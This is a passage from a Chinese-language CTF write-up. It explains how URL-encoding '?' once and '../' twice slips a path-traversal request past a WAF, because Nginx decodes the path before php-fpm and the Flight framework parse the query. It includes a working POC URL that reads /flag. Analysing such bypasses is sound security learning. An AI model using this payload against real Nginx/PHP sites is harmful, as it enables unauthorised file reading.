- phpfpm处理的`$url`是不包括请求参数的，即我们的`/feng/admin`，不包括`?xxx=xxxx`
- `isdanger`处理的`$_GET`是处理路由之前的`$_GET`，即比如请求的是`/feng/admin?login=123`，那么phpfpm处理的`$url`是`/feng/admin`，而`$_GET`得到`?login=123`那部分。
- flight会在`isdanger`的waf工作之后是先`parse_url`后`parse_str`，`parse_str`这里存在一次url解码（忘记了的再往上看一下）

这样看的话get参数那里拿url编码就可以绕过了，因为waf是在前，之后的`parse_str`会url解码一次。但是，考虑到这里得到的url是不包括请求参数的部分的，问题就出在了这里，nginx在某些配置的情况下，会url解码一层，这个就不细谈了。

简单的来说情况就是，nginx的`$url`先取的不带请求参数的那部分路径，然后再url解码一次给phpfpm。

因此构造POC：

```
/feng/admin%3Flogin=1&data=..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fflag
```

首先要把?给url编码一次，`../`给url编码两次。

这样传过去，首先Nginx会解码一次，变成`/feng/admin?login=1&data=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag`然后传给phpfpm，最后flight里面`Request`类的`url`就是`/feng/admin?login=1&data=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag`了。

然后waf那里，对`$_GET`进行过滤，但是这里的`$_GET`为空，因为`$_GET`得到的是Nginx获得的请求参数，nginx那里处理的url是`/feng/admin%3Flogin=1&data=..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fflag`，因为`?`被url编码了一次，所以nginx这里没有取到get参数，所以`$_GET`为空。

但是`../`仍然需要二次编码，是因为如果只编码一次，nginx解码之后flight处理的就是`../../../flag`，还记得上面提到的会截掉最后一个`/`前面的东西，导致失败，所以还得再url编码一次防止被截掉。


至此，本题分析完毕。中间一直有事情，这道题陆陆续续看了3天，这个文章也写了三题，思路有点不连贯，可能还有写错的地方吧。呜呜呜接下来复习期末去了。

